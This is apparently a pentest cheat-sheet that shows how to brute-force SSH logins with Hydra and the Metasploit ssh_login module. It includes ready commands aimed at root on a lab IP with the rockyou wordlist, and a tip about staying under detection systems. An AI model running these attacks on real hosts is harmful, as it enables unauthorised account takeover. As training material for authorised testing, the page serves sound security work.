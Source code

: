 ## Hydra

Brute Forcing SSH with Hydra  
`Hydra` is a popular brute-forcing tool used to test SSH login credentials. Here’s the syntax and steps to execute it:  

- Basic Hydra Syntax
    
    ```JavaScript
    hydra -L <username> -P <password_list> ssh://<IP_address> -t <threads> -vV
    ```
    
    - `L`: Specifies the username (e.g., `root`).
    - `P`: Specifies the path to the password list (e.g., `/usr/share/wordlists/rockyou.txt`).
    - `ssh://<IP_address>`: Target SSH protocol and IP address.
    - `t`: Sets the number of threads (e.g., `4`).
    - `vV`: Enables verbosity to see attempts in real-time.
    
    1. **Example Command**:
        
        ```JavaScript
        hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.5.7 -t 4 -vv
        ```
        

## Metasploit SSH Login Bruteforce

### Brute Forcing SSH with Metasploit

Metasploit also offers SSH brute-forcing capabilities via auxiliary modules.

1. **Load the SSH Auxiliary Module**:
    
    ```Shell
    msfconsole
    search ssh_login
    use auxiliary/scanner/ssh/ssh_login
    ```
    
2. **Configure SSH Brute Force Options**:
    
    ```Shell
    set USERNAME root
    set PASS_FILE /usr/share/wordlists/rockyou.txt
    set RHOSTS 192.168.5.7
    set THREADS 10
    set VERBOSE true
    ```
    
3. **Run the Brute Force Attempt**:
    
    ```Shell
    run
    ```
    
4. **Notes**:
    - Adjust `THREADS` for speed but be cautious of network or detection systems.
    - **Verbose Mode**: Helps confirm each login attempt.
